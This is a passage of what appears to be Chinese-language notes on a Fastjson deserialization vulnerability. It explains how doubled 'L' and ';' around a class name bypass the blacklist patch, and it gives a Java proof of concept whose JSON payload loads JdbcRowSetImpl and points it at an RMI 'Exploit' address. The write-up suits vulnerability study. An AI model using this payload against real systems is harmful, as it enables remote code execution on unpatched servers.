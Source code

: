 ```java
 6742705432718011780L,
 7179336928365889465L,
 7442624256860549330L,
 8838294710098435315L
};
```

github上有整理类hash对应的类 https://github.com/LeadroyaL/fastjson-blacklist

![image-20210813174935057](Fastjson2/image-20210813174935057.png)

在将类名传⼊⿊名单判断前，对开头和结尾的字符进⾏⼀次删除。

## 补丁绕过

> 绕过⽅式为类名开头两个 L ，结尾两个 ; ，这样删除⼀次开头结尾后的类名为 Lcom.sun.rowset.JdbcRowSetImpl; ，不会触发⿊名单。前⽂提到 TypeUtils.loadClass 会递归的去掉开头 L 和结尾 ; ，传⼊ TypeUtils.loadClass 函数的
>
> 类名是 LLcom.sun.rowset.JdbcRowSetImpl;; （其实 LLLcom.sun.rowset.JdbcRowSetImpl;;;也⾏），因此最终也能加载 com.sun.rowset.JdbcRowSetImpl 。

## POC

```java
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;
public class POC {
 public static void main(String[] args) {
 
 ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
 String PoC = "{\"@type\":\"LLcom.sun.rowset.JdbcRowSetImpl;;\",
\"dataSourceName\":\"rmi://localhost:1099/Exploit\", \"autoCommit\":true}";
 JSON.parse(PoC);
 }
}
```
